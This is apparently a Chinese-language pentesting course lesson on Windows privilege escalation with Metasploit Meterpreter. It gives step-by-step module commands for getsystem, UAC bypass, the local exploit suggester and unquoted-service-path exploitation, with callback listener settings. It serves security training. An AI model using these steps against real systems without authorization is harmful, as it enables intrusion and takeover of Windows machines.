

# 课程P70：第39天 - 权限提升：Meterpreter提权模块详解 🔓

在本节课中，我们将学习如何在Metasploit框架（MSF）中利用Meterpreter的提权模块，将普通用户权限提升至SYSTEM或管理员权限。课程内容涵盖自动提权命令、绕过用户账户控制（UAC）以及利用本地提权漏洞集合模块。

---


## 概述 📋

本节课主要介绍MSF及Cobalt Strike（CS）框架下提权模块的使用。上节课我们介绍了Windows系统下的提权方法与技巧，本节课将在此基础上，重点演示MSF中对应的、可直接利用的提权模块。

课程主要内容分为两部分：
1.  MSF中Meterpreter提权模块的使用。
2.  Cobalt Strike框架中提权模块的介绍与操作。

在渗透测试中，获得一个Shell后，我们常将其反弹至MSF或CS这类框架中，以便利用其集成的功能模块，更高效地进行后续测试和权限提升。

---

## Meterpreter自动提权命令


首先，我们介绍Meterpreter中最常见的自动提权命令：`getsystem`。

这个命令用于尝试将当前会话权限提升至SYSTEM级别。其使用前提是当前用户属于管理员组，但即使满足此条件，提权也不一定总能成功。


以下是两种典型情况：


**情况一：直接提权成功**
当执行 `getsystem` 命令后，若返回新的会话（例如session 2），并且通过 `getuid` 命令查看显示为 `NT AUTHORITY\SYSTEM`，则表明提权成功。


**情况二：直接提权失败**
更常见的情况是，执行 `getsystem` 命令后会报错，提示操作失败（`Operation failed: The environment is incorrect.`）。这意味着无法通过此命令直接完成提权。


针对第二种失败情况，我们需要采用其他方法，例如绕过用户账户控制（UAC）。

---

## 绕过用户账户控制（UAC）


用户账户控制（UAC）是微软的一种安全机制，旨在缓解恶意软件的影响。当普通用户尝试执行需要管理员权限的操作（如运行`regedit`或以管理员身份运行`cmd`）时，系统会弹出确认窗口。


绕过UAC的核心思路是：利用漏洞或特定方法，在不触发UAC弹窗或欺骗其机制的情况下，使普通用户获得管理员权限。

在MSF中，集成了多个用于绕过UAC的模块。我们可以通过 `search bypassuac` 命令进行搜索和查看。


### BypassUAC模块使用


当直接使用 `getsystem` 提权失败时，可以尝试使用 `exploit/windows/local/bypassuac` 模块。





以下是使用步骤：
1.  在获得一个普通用户权限的Meterpreter会话（例如session 1）后，背景化该会话（`background`）。
2.  使用 `use exploit/windows/local/bypassuac` 命令加载模块。
3.  设置必需的参数：
    *   `set SESSION <会话ID>`：指定已有的普通用户会话。
    *   `set LHOST <监听IP>`：设置回连地址。
    *   `set LPORT <监听端口>`：设置回连端口。
4.  执行 `exploit` 命令。


模块运行成功后，会建立一个新的Meterpreter会话（例如session 2）。进入这个新会话后，再执行 `getsystem` 命令，通常就能成功获得SYSTEM权限。


**核心原理**：BypassUAC模块利用漏洞，使当前会话获得了“绕过UAC验证”后的管理员上下文环境，在此基础上再执行 `getsystem`，成功率大大提升。


### BypassUAC注入模块


另一个类似的模块是 `exploit/windows/local/bypassuac_injection`。其使用方式与上述模块完全相同：
1.  `use exploit/windows/local/bypassuac_injection`
2.  `set SESSION <已有会话ID>`
3.  `set LHOST <监听IP>`
4.  `exploit`


该模块运行后，可能会直接返回一个具有SYSTEM权限的新会话。

**注意**：在使用这些模块时，务必注意`TARGET`参数的设置。如果目标系统是64位（x64），而模块默认或设置的`TARGET`是32位（x86），则会导致失败。错误信息通常为：`[-] Exploit aborted due to failure: bad-config: x86 target selected for x64 system`。此时，需要使用 `show targets` 查看可用目标，并用 `set TARGET <目标ID>` 命令进行正确设置。


---


## 本地提权漏洞利用建议器


上一节课我们介绍了Windows平台的各种提权漏洞。在MSF中，有一个非常实用的模块 `post/multi/recon/local_exploit_suggester`，可以自动检测目标系统可能存在的本地提权漏洞。


该模块基于已有的会话，在目标机器上运行检测脚本，并列出MSF中可供尝试利用的对应漏洞模块。


使用步骤如下：
1.  在获得一个会话后，背景化该会话。
2.  使用 `use post/multi/recon/local_exploit_suggester` 命令加载模块。
3.  设置参数：`set SESSION <已有会话ID>`。
4.  执行 `exploit` 或 `run` 命令。


模块运行后，会输出一个建议利用的模块列表。例如：
```
[+] 10.10.10.15 - exploit/windows/local/ms10_092_schelevator
[+] 10.10.10.15 - exploit/windows/local/ms16_014_wmi_recv_notif
```
我们可以选择其中一个模块进行尝试：
1.  `use <推荐的模块路径>`
2.  `set SESSION <同一个已有会话ID>`
3.  （根据需要设置其他参数，如LHOST）
4.  `exploit`

如果利用成功，将会获得一个新的、权限更高的会话（可能是管理员或SYSTEM权限）。之后可以在此新会话中尝试执行 `getsystem` 以确认或进一步提升权限。


**重要提示**：此模块给出的建议仅作为参考，并非所有列出的模块都能保证提权成功。渗透测试需要不断尝试。


---


## 不安全的服务路径漏洞利用

上节课我们介绍了Windows服务漏洞中的“不安全的服务路径”（Unquoted Service Path）。在MSF中，有对应的模块 `exploit/windows/local/trusted_service_path` 来利用此类漏洞。

该模块会自动在目标机器上搜索存在“可写入路径”且服务路径未用引号括起的服务，并尝试利用。

使用方法与其他本地漏洞利用模块类似：
1.  `use exploit/windows/local/trusted_service_path`
2.  `set SESSION <已有会话ID>`
3.  `set LHOST <监听IP>`
4.  `exploit`

模块运行后，会尝试查找并利用符合条件的服务。如果找到并利用成功，即可获得一个SYSTEM权限的会话。


---


## 总结 🎯


本节课我们一起学习了MSF框架中Meterpreter的多种权限提升方法：


1.  **基础命令**：首先尝试使用 `getsystem` 命令进行自动提权。
2.  **绕过UAC**：当 `getsystem` 失败时，使用 `bypassuac` 或 `bypassuac_injection` 模块绕过用户账户控制，为后续提权创造条件。
3.  **漏洞利用**：
    *   使用 `local_exploit_suggester` 模块智能推荐本地提权漏洞利用模块。
    *   使用 `trusted_service_path` 模块专门利用“不安全的服务路径”漏洞。


这些模块大大简化了手动信息收集和利用漏洞的流程。关键在于获得一个初始会话（即使权限很低），然后根据目标系统环境，灵活选用和尝试上述模块。同时，务必注意模块参数（如`SESSION`, `LHOST`, `TARGET`）的正确配置，并理解操作失败时的报错信息，这是解决问题的关键。